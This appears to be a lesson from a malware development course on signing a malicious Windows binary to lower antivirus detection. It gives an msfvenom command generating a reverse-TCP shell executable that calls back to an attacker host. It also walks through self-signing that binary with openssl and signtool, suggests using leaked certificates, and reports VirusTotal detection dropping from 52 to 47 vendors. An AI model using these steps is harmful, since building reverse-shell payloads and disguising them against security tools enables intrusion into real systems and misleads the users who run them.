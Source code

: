 # 4.0 Malware Binary Signing

### Introduction

When a user attempts to download a legitimate executable file from the internet, it is often signed by the company as a way of proving to the user that it is a trustworthy executable. Although security solutions will still scan the executable, additional scrutiny would've been placed on it had the binary been unsigned.

This module walks through the steps required to sign a malicious binary which can increase its trustworthiness. The module will be demonstrating binary signing on an executable generated via Msfvenom: `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o maldev.exe`

### Testing Binary Detection Rate

Before starting, the binary was uploaded to VirusTotal in order to see the detection rate before signing the binary. The detection rate is quite high with 52/71 vendors flagging the file as being malicious.

![VT-1](https://maldevacademy.s3.amazonaws.com/images/Basic/vt-1.png)

### Obtaining a Certificate

There are several ways to get a certificate:

- The most ideal way is to purchase the certificate from a trusted vendor such as [DigiCert](https://www.digicert.com/).
    
- Another possibility is to use a self-signed certificate. Although this will not be as effective as a trusted certificate, this module will prove that it can still have an impact on detection rates.
    
- The last option would be to find valid certificates that are leaked on the internet (e.g. on Github). Ensure no laws are broken by using these leaked certificates.
    

### Generating a Certificate

This demo will use the self-signed certificate route. This requires `openssl` which is pre-built into Kali Linux.

To create a certificate first generate the required `pem` files. The tool requires information to include inside the certificate.

`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365`

![PEM-Creation](https://maldevacademy.s3.amazonaws.com/images/Basic/sign.png)

Next, generate a `pfx` file using the `pem` files. The tool will ask for a key phrase to be entered.

`openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx`

![PFX-Creation](https://maldevacademy.s3.amazonaws.com/images/Basic/pfx-creation.png)

### Signing The Binary

Signing the binary requires `signtool.exe` which is part of Windows SDK. It can be installed [here](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/). Once that's done, the binary can be signed using the command below.

`signtool sign /f sign.pfx /p <pfx-password> /t http://timestamp.digicert.com /fd sha256 binary.exe`

Viewing the binary's properties will now show a "Digital Signature" tab which shows the details of the certificate that was used to sign the binary. It also shows a warning that the certificate is not trusted.

![Properties](https://maldevacademy.s3.amazonaws.com/images/Basic/maldev-properties.png)

### Testing Signed Binary Detection Rate

The binary is re-uploaded to VirusTotal to check if there was an impact on the detection rate. Unsurprisingly, the number of security solutions that flagged the file dropped from 52 to 47. Initially, it may not appear as a massive drop in detection rate but it must be emphasized that no changes were made to the file besides signing it with a certificate.

![VT-2](https://maldevacademy.s3.amazonaws.com/images/Basic/vt-2.png)